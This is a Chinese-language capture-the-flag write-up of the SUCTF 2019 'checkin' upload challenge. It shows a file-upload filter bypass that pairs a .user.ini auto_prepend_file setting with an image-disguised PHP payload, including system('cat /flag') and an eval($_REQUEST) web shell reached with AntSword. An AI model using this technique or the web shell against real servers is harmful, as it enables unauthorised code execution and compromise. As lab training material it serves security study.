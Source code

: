 ### buuoj_[SUCTF 2019]checkin

首先看到是上传文件，那就先上传一张图片和txt文件试试

![](https://pic.imgdb.cn/item/61151cf45132923bf83444b0.jpg)

![](https://pic.imgdb.cn/item/61151d685132923bf83539fa.jpg)

可以看到后端检查是否是图片，并且显示了图片储存路径，那么试一下上传木马

![](https://pic.imgdb.cn/item/61151e585132923bf8373b99.jpg)

好像不太行，再试试改一下后缀

![](https://pic.imgdb.cn/item/61151e8f5132923bf837b262.jpg)

还是不行，换一种

![image-20210812211624953](C:\Users\EXCEPTION\AppData\Roaming\Typora\typora-user-images\image-20210812211624953.png)

成功了，用蚁剑连一下，连不上。。。麻了

然后看看大佬的wp

利用`.user.ini`来上传php后门

------

## .user.ini

我们先在php手册上看一下对`.user.ini`的介绍：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20190824211552-4c92f9fe-c671-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190824211552-4c92f9fe-c671-1.png)

也就是说我们可以在`.user.ini`中设置`php.ini`中**PHP_INI_PERDIR** 和 **PHP_INI_USER** 模式的 INI 设置，而且只要是在使用 **CGI／FastCGI** 模式的服务器上都可以使用`.user.ini`

**auto_prepend_file**和**auto_append_file**

> 指定一个文件（如a.jpg），那么该文件就会被包含在要执行的php文件中（如index.php），类似于在index.php中插入一句：`require(./a.jpg);`
>
> 这两个设置的区别只是在于**auto_prepend_file**是在文件前插入；**auto_append_file**在文件最后插入（当文件调用的有`exit()`时该设置无效）

首先上传一个.user.ini后缀的文件，内容是

```
GIF89a
auto_prepend_file=a.jpg
```

![](https://pic.imgdb.cn/item/611524805132923bf8467c08.jpg)

之后，在上传一个木马，内容是这个（文件名a.jpg)

```
GIF89a?
<script language='php'>system('cat /flag');</script>
```

上传成功后访问这个

```
http://c7fef2bc-c022-4059-a1a1-b739b4e4d5a2.node4.buuoj.cn:81/uploads/546b0fb1e304c8d7a57f22d14e79d454/index.php
```

但是访问出来是空白不知道为什么

![image-20210812223635696](C:\Users\EXCEPTION\AppData\Roaming\Typora\typora-user-images\image-20210812223635696.png)

换一个木马上传

```
GIF89a? 
<script language="php">eval($_REQUEST[shell])</script>
```

然后蚁剑链接，目录是

```
http://dab2a096-4cd3-4bb2-8bb3-559523bf740c.node4.buuoj.cn:81/uploads/546b0fb1e304c8d7a57f22d14e79d454/index.php
```

![](https://pic.imgdb.cn/item/611533bc5132923bf86c1980.jpg)

完成